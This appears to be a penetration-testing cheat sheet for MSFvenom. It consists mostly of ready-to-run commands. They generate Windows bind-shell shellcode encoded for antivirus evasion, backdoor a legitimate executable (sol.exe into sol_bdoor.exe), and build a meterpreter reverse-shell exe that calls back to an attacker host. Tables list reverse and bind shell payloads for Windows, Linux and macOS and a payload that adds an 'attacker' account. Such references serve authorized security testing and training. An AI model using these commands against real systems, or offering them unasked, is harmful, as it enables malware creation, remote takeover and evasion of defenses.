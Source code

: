 # MSFvenom

For generation of payload shellcode and encoder for AV evasion.

A sample of MSFvenom command to generate shellcode of the bind\_tcp payload as below:

`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python`

Architecture: `-a`

Platform: `--platform`

Payload to be use: `-p`

Encoding \(for AV evasion, often `x86/shikata_ga_nai` \): `-e`

Embed in non-malicious file by using a template: `-x`

```text
 msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b "\x00" -f exe -o sol_bdoor.exe
```

Number of times to encode the payload: `-i`

Output format: `-f`

Help: `-h`

Variable \(default value is `buf`\): `-v`

Avoid bad character \(such as `'\x00'`\): `-b`

create the smallest shellcode possible: `–smallest`

add a few NOPs at the start of your payload: `-n`

```text
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e generic/none -f python -n 26
```

**List of Available Platform:**

```text
Cisco or cisco
OSX or osx
Solaris or solaris
BSD or bsd
OpenBSD or openbsd
hardware
Firefox or firefox
BSDi or bsdi
NetBSD or netbsd
NodeJS or nodejs
FreeBSD or freebsd
Python or python
AIX or aix
JavaScript or javascript
HPUX or hpux
PHP or php
Irix or irix
Unix or unix
Linux or linux
Ruby or ruby
Java or java
Android or android
Netware or netware
Windows or windows
mainframe
multi
```

**List of Available formats:** `-help-format`

```text
asp, aspx, aspx-exe, dll, **elf**, elf-so, **exe**, **exe-only**, exe-service, exe-small,
hta-psh, loop-vbs, **macho**, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
psh-cmd, vba, vba-exe, vba-psh, vbs, war
```

Transform formats

```text
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl,
powershell, ps1, py, python, raw, rb, ruby, sh,
vbapplication, vbscript
```

Typical payloads Sample command:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe -o reverse.exe
```

Windows \(`-f exe`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `windows/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `windows/meterpreter/bind_tcp` | RHOST, LPORT |
| Create User | `windows/adduser USER=attacker PASS=attacker@123` |  |
| CMD |  | LHOST, LPORT |
| Encoder | `-e shikata_ga_nai` |  |

Linux \(`-f elf`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `linux/x86/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `linux/x86/meterpreter/bind_tcp` | RHOST, LPORT |
| Generic Shell | `generic/shell_bind_tcp` | RHOST, LPORT |

Mac OS \(`-f macho`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `osx/x86/shell_reverse_tcp` | LHOST, LPORT |
| Bind Shell | `osx/x86/shell_bind_tcp` | RHOST, LPORT |

